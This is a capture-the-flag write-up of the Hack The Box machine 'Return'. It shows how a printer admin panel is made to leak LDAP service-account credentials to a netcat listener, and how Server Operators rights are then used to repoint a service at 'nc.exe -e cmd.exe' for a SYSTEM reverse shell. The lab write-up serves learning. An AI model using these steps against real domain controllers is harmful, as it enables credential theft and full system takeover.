





# Return


## User Flag
### Nmap
Like always, start out with a good ole `nmap` scan:
```shell
$ sudo nmap -sC -sV 10.10.11.108 -oN nmap_return
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-18 01:15 CST
Nmap scan report for 10.10.11.108
Host is up (0.030s latency).
Not shown: 990 closed tcp ports (reset)
PORT    STATE SERVICE       VERSION
53/tcp  open  domain        Simple DNS Plus
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
88/tcp  open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-11-18 07:34:23Z)
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp open  microsoft-ds?
464/tcp open  kpasswd5?
593/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp open  tcpwrapped
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-11-18T07:34:28
|_  start_date: N/A
|_clock-skew: 18m35s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.54 seconds
```

From all the ports open we can infer we are dealing with a `Windows` domain controller. 
The first few things I attempted were to try an `SMB` null session or `rpcclient` and both failed. Then attempting to do `DNS` queries via `dig` also failed. `Ldapsearch` also failed to give me any information.

### Printer Admin Panel
Port `80` is open, let's check it out.


It appears to be a printer admin panel. There is no login page, and the only button we can succesfully hit is `Settings`, let's head there:


### Burp
The settings page has 4 fields that we can edit. We have `Server Address`, `Server Port`, `Username`, and `Password`. I kept the default settings and intercepted the request in `Burp` to see what was being sent:


Interestingly, no matter what we put in any of the other fields, the only field that is actually sent in the request is the `Server Address` field.

### Send Me Your Creds
Since `Server Address` is the only field we currently have access to, let's try to point that to our machine and see what happens. I set up a `netcat` listener on port `389` (as that is what is on the page) and set the `Server Address` to my machine's IP address:
```shell
$ nc -lvnp 389 
listening on [any] 389 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.108] 57931
0*`%return\svc-printer
                      1edFg43012!!
```

We got a connection, and it appears to be credentials for a `svc-printer` account. We can confirm if these work quickly with `crackmapexec`:
```shell
$ crackmapexec smb 10.10.11.108 -u svc-printer -p '1edFg43012!!'       
SMB         10.10.11.108    445    PRINTER          [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [+] return.local\svc-printer:1edFg43012!!
```

### Evil-WinRM as svc-printer
```shell
$ evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'

*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami
return\svc-printer
```

### User.txt
```shell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> gci c:\Users\ -Recurse -Include "user.txt" -ErrorAction Ignore


    Directory: C:\Users\svc-printer\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---       11/17/2023  11:34 PM             34 user.txt


*Evil-WinRM* PS C:\Users\svc-printer\Documents> cat c:\Users\svc-printer\Desktop\user.txt
3286******************************
```
## Root Flag

### Whoami?
One of the first things I like to do when I get a shell is to run `whoami /all` to see what groups I am in and what privileges I have:
```shell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami /all

USER INFORMATION
----------------

User Name          SID
================== =============================================
return\svc-printer S-1-5-21-3750359090-2939318659-876128439-1103


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549 Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```
First, I was drawn to was seeing if any of the privileges could be exploited. It turns out the `SeLoadDriver` was exploitable before Windows 1803, but it looks like this machine is on 1809.


### Server Operators
Next we got the groups, and the `svc-printer` account is in the `Server Operators` group. This group has the ability to create and delete shares, start and stop services, and back up and restore files. We can see what services we can start and stop with the `services` command:

```shell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> services

Path                                                                                                                 Privileges Service          
----                                                                                                                 ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS             
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796    
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService    
C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.15 8888                                                          True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc
```


### Service Reverse Shell
For the purpose of creating the reverse shell, we will exploit the service named `VMTools`. What we are doing is changing the `binpath` of `VMTools` to an uploaded copy of `nc.exe` that will connect back to our machine on port `8888`, as seen in the picture below:



And just like that we have `nt authority\system`.

### Root.txt

The shell is prety unstable, but we are able to grab our flag quickly. If this was a real pentest, or we needed to maintain access, we would need to find a more stable shell.
```shell
C:\Windows\system32>cd c:\users\administrator\desktop

c:\Users\Administrator\Desktop>type root.txt
type root.txt
38d6*****************************
```
